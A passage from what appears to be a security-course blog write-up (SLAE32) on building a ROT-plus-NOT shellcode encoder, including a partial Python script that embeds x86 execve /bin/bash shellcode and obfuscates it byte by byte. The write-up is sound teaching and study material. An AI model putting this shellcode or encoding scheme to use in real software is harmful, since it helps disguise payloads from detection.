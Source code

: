 Again, pretty simple. In this case, we get a value of '5' returned by the application, which is 0x35, or 0x29 + 0x0C. We know our processor works, great! 

Although encoded, a ROT cipher is pretty boring. As I was searching around and seeing how other encoders had been implemented, I found a ROT cipher with a twist. Since we're working with bytes, in order to prevent an overflow, such as ROT13(0xFA) which would equal 0x107, we can perform a check to see if the value is going to be greater than 256. If so, we can instead subtract from the value. This isn't strictly necessary since we're working with lower register values, but it does add a layer of obscurity to the encoder. 

For example:

ROT13(0xFA) = 0x107
0x107 - 0x0D = 0xFA

In assembly, we can effectively just ignore the overflow by dealing only with lower register values (e.g. al, bl), but I thought this would be a good exercise. In order to add my own spice to the equation, I also added a bitwise NOT to the encoder and decoder, so the encoder will add or subtract the provided value, then bitwise NOT the result. The decoder will then perform a bitwise NOT and add or subtract the value, depending on whether or not the 'overflow' condition would be met.

Here's the python script I came up with:

``` python
#!/usr/bin/python
import sys

# ROT X + NOT encoder / decoder
# For SLAE32
# Howard McGreehan

if len(sys.argv) < 2:
    print("[!] Provide a shift")
    sys.exit()
else:
    shellcode = ("\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# Set up a few variables for use in our loop
orig = ""
encoded = bytearray()
encodedOut1 = ""
encodedOut2 = ""
encodedOut3 = ""
encoded2 = ""

# We can't let the bytes become bigger than 256 minus the value we add!
addVal = int(sys.argv[1])
maxVal = 256 - addVal

# Create a loop to encode our shellcode
for byte in bytearray(shellcode):   

    # For sanity, we'll print out the original shellcode
    orig += '\\x%02x' % (byte & 0xff)

    # Check how big the byte is, if it's going to be larger than the 
    # maxVal, we need to account for it (otherwise it's bigger than a byte)
    if (byte < maxVal):
        tmp = (~(byte + addVal))&0xff
        encodedOut1 += '\\x%02x' % (tmp)
        encodedOut2 += '%02x' % (tmp)
        encodedOut3 += '0x%02x,' % (tmp)
        encoded.append(tmp)
    else:
        tmp = (~(addVal - maxVal + byte))&0xff
```